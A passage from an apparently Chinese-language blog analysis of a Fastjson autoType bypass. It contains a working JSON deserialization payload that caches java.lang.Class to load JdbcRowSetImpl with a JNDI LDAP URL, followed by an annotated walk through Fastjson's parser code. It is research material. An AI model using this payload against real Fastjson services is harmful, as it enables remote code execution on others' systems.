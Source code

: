 下面就能写出payload了

```java
public class FastJsonBypass1 {
    public static void main(String[] args) throws Exception {
        String s = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:10389/cn=Exp,dc=example,dc=com\",\"autoCommit\":0}}";
        JSONObject jsonObject = JSON.parseObject(s);
    }
}
```

跟一下利用流程

先看Class的反序列化

```java
//ParserConfig#checkAutoType
Class<?> clazz = TypeUtils.getClassFromMapping(typeName);   //在缓存中找不到
if (clazz == null) {
    clazz = deserializers.findClass(typeName);              //可以找到反序列化器，也就是MiscCodec，返回Class
}

if (clazz != null) {                                        //进入此循环
    if (expectClass != null && !expectClass.isAssignableFrom(clazz)) { //期望类为空，不进入此循环
        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
    }

    return clazz;   //返回Class
}
```

之后return调用

```java
//defaultJSONParser#parseObject
ObjectDeserializer deserializer = config.getDeserializer(clazz);  //调用返回MiscCodec反序列化器
return deserializer.deserialze(this, clazz, fieldName); //MiscCodec.deserialze
```

MiscCodec.deserialze把传入的String（也就是`com.sun.rowset.JdbcRowSetImpl`），反序列化为Class对象

lexer.stringVal()==val

![image-20240801210036755](https://s2.loli.net/2024/08/01/o57Aaq4GRh6wVlO.png)

再往下走到

```java
if (clazz == Class.class) {
    return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());  //loadClass（com.sun.rowset.JdbcRowSetImpl），并存入缓存
}
```

之后回到
